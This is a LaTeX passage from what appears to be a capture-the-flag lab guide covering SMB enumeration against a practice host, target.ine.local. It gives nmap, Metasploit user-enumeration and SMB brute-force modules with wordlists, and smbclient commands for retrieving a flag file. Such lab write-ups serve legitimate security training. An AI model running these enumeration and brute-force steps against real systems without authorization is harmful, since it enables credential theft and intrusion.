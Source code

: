 \begin{takebox}
\chapter{CTF 2 --- Network Enumeration \& SMB}
\label{ctf:ctf2}

\begin{notebox}
Multi-flag network CTF targeting SMB, FTP, and SSH services. Each flag requires
progressively deeper enumeration --- earlier flags leave hints for the next one.
\end{notebox}

\section*{Attack Path Overview}

\begin{enumerate}
  \item Port scan to identify open services
  \item Enumerate SMB users and brute-force credentials
  \item Use smbclient to access shares and retrieve flag
  \item Follow the hint inside the flag for the next service
  \item Brute-force FTP using a specific user list
  \item SSH anonymous login attempt
\end{enumerate}

\section*{Flag 1 --- SMB Null Session and Share Access}

\end{takebox}



\begin{termbox}
# Find SMB on port 445
nmap -sV -p 445 target.ine.local

# Enumerate SMB users
msfconsole
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS target.ine.local
run

# Brute-force SMB with found users
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run

# Connect with found credentials using smbclient protocol flags
# (SMBv2/3 required on this target)
smbclient --option='client min protocol=SMB2' \
          --option='client max protocol=SMB3' \
          -L //target.ine.local -U found_user

# Access the share
smbclient --option='client min protocol=SMB2' \
          --option='client max protocol=SMB3' \
          //target.ine.local/share_name -U found_user

# Inside smbclient:
ls
get flag.txt
exit
cat flag.txt
\end{termbox}

